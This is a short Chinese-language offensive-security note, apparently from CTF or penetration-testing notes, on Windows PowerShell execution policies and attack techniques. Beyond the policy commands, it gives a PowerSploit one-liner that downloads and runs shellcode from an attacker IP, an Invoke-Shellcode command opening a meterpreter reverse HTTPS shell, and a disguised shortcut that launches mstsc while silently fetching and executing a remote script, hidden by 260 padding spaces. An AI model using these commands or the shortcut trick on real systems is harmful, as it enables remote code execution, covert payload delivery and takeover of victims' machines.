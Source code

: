 电脑上启动 Window Powershell 时，默认情况下，其执行策略可能是Restricted。
Restricted策略是不允许任何脚本执行的。

如要查询当前执行策略 其命令

```
get-executionpolicy     //查看当前执行策略
```

更改执行策略 `remotesigned`，在Powershell中键入（最好用管理员权限执行）

```
set-executionpolicy remotesigned    //修改执行策略为remotesigned  
```

![](images/ctf-2021-09-27-15-23-50.png)

直接默认yes就可修改成功

> Restricted: 脚本不能运行(默认设置)
RemoteSigned: 在本地创建的脚本可以运行，网上下载的脚本无法运行(拥有数字证书签名例外)
AllSigned: 仅当脚本由受信任的发布者签名时才能运行
Unrestricted: 允许所有脚本运行
Set-ExecutionPolicy <Policy name>  设置执行策略


### PowerCat 模块

### PowerSploit 模块

IEX (New-Object Net.WebClient).DownloadString("http://IP Adress/CodeExecution/Invoke--Shellcode.ps1")；

Invoke-Shellcode -Payload windows/meterpreter/reverse_https –Lhost IP_Address -Lport 4444 -Force

### 伪造快捷方式

新建快捷方式，设置目标路径为：

```
C:\Windows\System32\rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";new%20ActiveXObject("WScript.Shell").Run("powershell c:\windows\system32\mstsc.exe IEX (New-Object Net.WebClient).DownloadString("IP_Address/rlink.ps1")",0,true);self.close();
```

这个快捷方式的功能就是运行mstsc程序同时下载rlink.ps1文件执行。为了避免被发现，最后在程序名和参数之间添加一个260个空白字符，这样可以避免在快捷方式上右键属性被发现异常。
